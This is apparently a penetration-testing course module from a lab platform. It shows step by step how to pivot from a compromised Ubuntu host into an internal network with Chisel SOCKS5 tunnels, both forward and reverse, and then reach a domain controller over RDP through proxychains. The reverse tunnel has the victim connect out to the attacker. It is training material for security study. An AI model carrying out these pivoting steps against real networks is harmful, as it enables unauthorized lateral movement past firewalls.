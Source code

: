 # SOCKS5 Tunneling with Chisel

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment. Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.

### Setting Up & Using Chisel

Before we can use Chisel, we need to have it on our attack host. If we do not have Chisel on our attack host, we can clone the project repo using the command directly below:

**Cloning Chisel**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

We will need the programming language `Go` installed on our system to build the Chisel binary. With Go installed on the system, we can move into that directory and use `go build` to build the Chisel binary.

**Building the Chisel Binary**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ cd chisel
go build
```

It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)" and IppSec's walkthrough of the box `Reddish`. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM\&t=1469s).

Once the binary is built, we can use `SCP` to transfer it to the target pivot host.

**Transferring Chisel Binary to Pivot Host**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09    
```

Then we can start the Chisel server/listener.

**Running the Chisel Server on the Pivot Host**

SOCKS5 Tunneling with Chisel

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

We can start a client on our attack host and connect to the Chisel server.

**Connecting to the Chisel Server**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

**Editing & Confirming proxychains.conf**

We can use any text editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

**Pivoting to the DC**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

***

### Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

**Starting the Chisel Server on our Attack Host**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

**Connecting the Chisel Client to our Attack Host**

SOCKS5 Tunneling with Chisel

```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

**Editing & Confirming proxychains.conf**

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

SOCKS5 Tunneling with Chisel

```shell-session
AIceBear@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
